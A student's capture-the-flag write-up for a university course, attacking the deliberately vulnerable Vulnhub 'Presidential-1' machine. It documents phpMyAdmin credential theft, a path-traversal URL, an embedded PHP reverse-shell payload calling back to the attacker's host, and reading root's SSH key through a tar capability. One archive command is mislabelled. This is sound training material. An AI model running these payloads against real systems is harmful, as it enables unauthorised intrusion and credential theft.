 # Report Presidential Hacking
Simone Cossaro IN2000201

Cybersecurity Course

University of Trieste

Academic year 2023-2024

## Introduction

This report details the steps taken to solve the Vulnhub CTF (Capture the Flag) challenge known as Presidential-1.
Capture the Flag challenges are a cornerstone in the training and development of cybersecurity professionals. These competitions are designed to simulate real-world scenarios where participants must apply their knowledge and skills to solve security-related problems. 

In the scenario of Presidential-1, the U.S. state is developing a registration website for presidential elections and seeks to test the security of the server before launching the website and registration system. One political party is concerned that the opposing party might commit electoral fraud by hacking into the registration system and falsifying votes.

The objective of the challenge is to gain root access to the server.

The attack was conducted following the walkthrough available [here](https://www.hackingarticles.in/presidential-1-vulnhub-walkthrough/).

## Tools

VirtualBox is required for this challenge to run the following two virtual machines:
* the Presidential VM, available on Vulnhub [here](https://www.vulnhub.com/entry/presidential-1,500/)
* an attacking Kali Linux VM
  
Both virtual machines are connected to the same network with NAT.

## Recognition

The first step of the attack is reconnaissance. The shell command `netdiscover` automates the discovery of live hosts on a network. Executing it helps determine if the presidential machine is connected to the network and identifies its IP address.

Once the IP address of the machine (10.0.2.8) is identified, we proceed to identify the services, open ports, and software versions on it using the `nmap` command.

![Steps of recognition](images/reconnaissance.png)  

The scan reveals that the machine is running a web service on port 80 with HTTP protocol and a remote shell on port 2082 with SSH protocol.

## Enumeration

Visiting the main page of the web service on port 80 and scrolling to the bottom reveals an email address (contact@votenow.local), providing the domain name: votenow.local. The domain name can be associated with the IP address by adding a line to the '/etc/hosts' file.

In this enumeration phase, Gobuster, a tool for scanning directories and files on web servers, is essential. It locates hidden or unadvertised resources on a web server, such as directories or files that may not be listed directly on a web page but are still accessible.

The Gobuster command specifies the file extensions to search for and the dictionary to use for brute force. Brute force in this context refers to systematically sending HTTP requests for each entry in the provided wordlist. Gobuster tries every word in the wordlist, such as potential directories, files, subdomains, etc., until it finds valid resources or exhausts the options.

![Steps of enumeration](images/enumeration.png)  

A 'config.php.bak' file was detected. These files usually contain a backup copy of the original 'config.php' file, which in turn contains important configuration information.

Indeed, the file contains user credentials that may prove useful later.

## Exploiting

Using Gobuster with the vhost option allows the discovery of subdomains. With the dictionary used (/dirbuster/wordlists/directory-list-2.3-medium.txt), a single subdomain was found: datasafe.votenow.local.

The subdomain's web page features an access panel to "phpMyAdmin." By entering the previously obtained credentials, it is possible to log in and access a SQL database containing the hash of an admin user's password.

The hash alone cannot be used, so John the Ripper, a password-cracking tool, is employed. Using the famous rockyou dictionary, the password corresponding to the hash is forced, revealing it to be "Stella."

Browsing the page further, it is noted that the phpMyAdmin version is outdated, listed as 4.8.1 while the latest stable version is 4.9.5.

Searchsploit, a tool for searching known exploits and vulnerabilities, reveals three vulnerabilities for this version, one of which allows command execution. Searchsploit provides detailed information about this vulnerability and how it can be exploited.

To exploit this vulnerability it is necessary to:
1) authenticate
2) obtain the phpMyAdmin cookie
3) execute a SQL query on the web page
4) accurately edit the URL.
   
Authentication was done with the credentials obtained previously.

The phpMyAdmin cookie can be obtained by using the browser inspector and seeing what the value of the cookie named phpMyAdmin is.

After authentication it is possible to execute sql queries on the databases present.

Under normal circumstances, the web application does not interpret or execute code placed within backticks. However, by meticulously crafting the URL and embedding a PHP script within backticks in a SQL query, it becomes possible to execute the script.

The URL must have the following format:

'http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/session/sess_{cookieValue}'

where {cookieValue} is the current session's cookie value.

By listening with a netcat listener on port 443 and injecting a SQL query like:

`select '<?php system("bash -i >& /dev/tcp/10.0.2.4/443 0>&1");?>'`

and structuring the URL as shown, a reverse shell is obtained on the presidential machine.

![Exploitation of the vulnerability](images/sql_vuln.png)

At this point, authentication can be done using the previously extracted admin user credentials.

![Reverse shell connection and authentication](images/reverse_shell.png)


## Privilege Escalation

The next step is listing the capabilities associated with available executable files using the `getcap` command.  It is noted that the tarS binary has '+EP'. This binary allows the compression of any file on the system without being root. Once compressed, it's possible to read the contents of the file by performing only the decompression.

The '/root/.ssh/' directory contains an 'id_rsa' file, which typically holds an RSA private key for SSH authentication.
By having '+ep', compressing and decompressing the 'id_rsa' file, visibility to its contents is gained.

Compression and decompression are done by the two following commands:

* `tarS -xvf id_rsa.tar /root/.ssh/id_rsa` : creates a tar archive called 'id_rsa.tar' containing the 'id_rsa' file present in the '/root/.ssh/' directory.

* `tar -xvf id_rsa.tar` : extracts the file from the 'id_rsa.tar' archive.

After the execution of these two commands, the 'id_rsa' file can be read.

![Obtaining the RSA private key](images/rsa_key.png)

With the RSA private key, remote connection to the presidential machine as root via SSH protocol is possible.

Once arrived at this point, obtaining the final-flag can be done and it marks the end of the challenge.

![Root access](images/ssh_&_final_flag.png)
